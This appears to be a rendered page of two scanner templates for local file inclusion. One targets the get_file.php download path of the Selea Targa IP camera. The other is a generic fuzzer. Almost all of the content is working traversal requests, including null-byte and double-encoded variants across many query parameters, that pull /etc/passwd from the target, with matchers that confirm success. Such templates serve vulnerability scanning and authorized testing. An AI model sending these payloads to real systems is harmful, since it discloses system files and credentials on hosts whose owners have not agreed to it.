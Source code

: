- Selea Targa IP OCR-ANPR camera suffers from an unauthenticated local file inclusion vulnerability because input passed through the Download Archive in Storage page using get_file.php script is not properly verified before being used to download files. This can be exploited to disclose the contents of arbitrary and sensitive files via directory traversal attacks and aid the attacker in disclosing clear-text credentials.
- severity - high
- tags - targa,lfi,iot,camera,selea

## Requests

- Method - GET

### URL

- {{BaseURL}}/CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Linux based LFI Fuzzing

## Description

- Fuzzes for /etc/passwd on passed URLs
- severity - high
- tags - linux,lfi,fuzz

## Requests

- Method - GET

### URL

- {{BaseURL}}/?q=../../../etc/passwd&s=../../../etc/passwd&search=../../../etc/passwd&id=&action=../../../etc/passwd&keyword=../../../etc/passwd&query=../../../etc/passwd&page=../../../etc/passwd&keywords=../../../etc/passwd&url=../../../etc/passwd&view=../../../etc/passwd&cat=../../../etc/passwd&name=../../../etc/passwd&key=../../../etc/passwd&p=../../../etc/passwd
- {{BaseURL}}/?q=../../../etc/passwd%00&s=../../../etc/passwd%00&search=../../../etc/passwd%00&id=../../../etc/passwd%00&action=../../../etc/passwd%00&keyword=../../../etc/passwd%00&query=../../../etc/passwd%00&page=../../../etc/passwd%00&keywords=../../../etc/passwd%00&url=../../../etc/passwd%00&view=../../../etc/passwd%00&cat=../../../etc/passwd%00&name=../../../etc/passwd%00&key=../../../etc/passwd%00&p=../../../etc/passwd%00
- {{BaseURL}}/?q=%252e%252e%252fetc%252fpasswd&s=%252e%252e%252fetc%252fpasswd&search=%252e%252e%252fetc%252fpasswd&id=%252e%252e%252fetc%252fpasswd&action=%252e%252e%252fetc%252fpasswd&keyword=%252e%252e%252fetc%252fpasswd&query=%252e%252e%252fetc%252fpasswd&page=%252e%252e%252fetc%252fpasswd&keywords=%252e%252e%252fetc%252fpasswd&url=%252e%252e%252fetc%252fpasswd&view=%252e%252e%252fetc%252fpasswd&cat=%252e%252e%252fetc%252fpasswd&name=%252e%252e%252fetc%252fpasswd&key=%252e%252e%252fetc%252fpasswd&p=%252e%252e%252fetc%252fpasswd